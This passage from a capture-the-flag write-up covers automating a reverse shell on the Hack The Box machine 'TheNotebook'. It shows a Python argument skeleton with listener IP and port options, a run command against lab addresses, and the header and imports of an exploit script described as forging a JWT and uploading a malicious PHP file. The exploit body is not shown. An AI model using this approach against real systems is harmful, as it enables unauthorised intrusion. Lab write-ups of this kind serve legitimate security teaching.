 Now, let's automate it to get a reverse shell auto on this box

# Scripting - www-data shell

As always we will use python skeleton to start building our script

```py
#!/usr/bin/python3

import argparse
import requests
import sys

'''Setting up something important'''
proxies = {"http": "http://127.0.0.1:8080", "https": "http://127.0.0.1:8080"}
r = requests.session()

'''Here come the Functions'''

def main():
    # Parse Arguments
    parser = argparse.ArgumentParser()
    parser.add_argument('-t', '--target', help='Target ip address or hostname', required=True)
    parser.add_argument('-li', '--ipaddress', help='Listening IP address for reverse shell', required=False)
    parser.add_argument('-lp', '--port', help='Listening port for reverse shell', required=False)
    parser.add_argument('-u', '--username', help='Username to target', required=False)
    parser.add_argument('-p', '--password', help='Password value to set', required=False)
    args = parser.parse_args()
    
    '''Here we call the functions'''
    
if __name__ == '__main__':
    main()
```

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-12-HackTheBox-TheNotebook/2021-09-12-HackTheBox-TheNotebook%2001:45:10.png)

```sh
python3 the_note_auto.py -t 10.10.10.230 -li 10.10.14.20 -lp 443
```

the_note_auto.py

```py
#!/usr/bin/python3
# Date: 2021-10-13
# Exploit Author: 0x4rt3mis
# Hack The Box - TheNotebook
# Auto forge JWT, malicious php upload and reverse shell automated

import argparse
import requests
import sys
import socket, telnetlib
from threading import Thread
import threading
import http.server
import socket
from http.server import HTTPServer, SimpleHTTPRequestHandler
import base64
import urllib.parse
import jwt
import os

```
